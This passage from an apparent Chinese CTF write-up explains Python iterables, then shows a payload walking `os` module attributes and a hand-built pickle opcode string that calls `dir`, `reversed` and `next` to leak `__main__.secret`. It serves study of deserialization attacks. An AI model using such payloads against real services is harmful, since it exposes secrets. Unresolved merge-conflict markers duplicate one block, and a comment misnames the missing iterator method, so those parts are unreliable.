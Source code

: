     -   `(x*x for x in range(5))`
7.  其他内置可迭代对象：
    -   enumerate 对象 (`enumerate(list)`)
    -   zip 对象 (`zip(list1, list2)`)
    -   reversed 对象 (`reversed(list)`)

只要一个对象实现了 `__iter__()` 方法且该方法返回一个迭代器对象，那么这个对象就被认为是可迭代的。在 Python 中，可以使用 `isinstance(obj, collections.abc.Iterable)` 来检查一个对象是否是可迭代的。

具体的利用参照这个 payload

<<<<<<< HEAD
```plain
next(dir(sys.modules['os']))
 TypeError: 'list' object is not an iterator
#如果直接运行这个的话会抛出一个TypeError: 'list' object is not an iterator
#原因是虽然list是可迭代的,但是他并不是一个迭代器,他并没有__call__函数
>>> next(iter(dir(sys.modules['os'])))
'DirEntry'
#这才是正确的payload
#如果想倒着遍历这个列表的话,可以使用reversed()这个函数
=======
```bash
next(dir(sys.modules['os']))
 TypeError: 'list' object is not an iterator
#如果直接运行这个的话会抛出一个 TypeError: 'list' object is not an iterator
#原因是虽然 list 是可迭代的，但是他并不是一个迭代器，他并没有__call__函数
>>> next(iter(dir(sys.modules['os'])))
'DirEntry'
#这才是正确的 payload
#如果想倒着遍历这个列表的话，可以使用 reversed() 这个函数
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
>>> next(reversed(dir(sys.modules['os'])))
'write'
```

直接手搓比用 pker 舒服多了

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b"""(((c__main__
secret
i__builtins__
dir
i__builtins__
reversed
i__builtins__
next
."""
```

只用到了 `c` 和 `i`, 遥遥领先
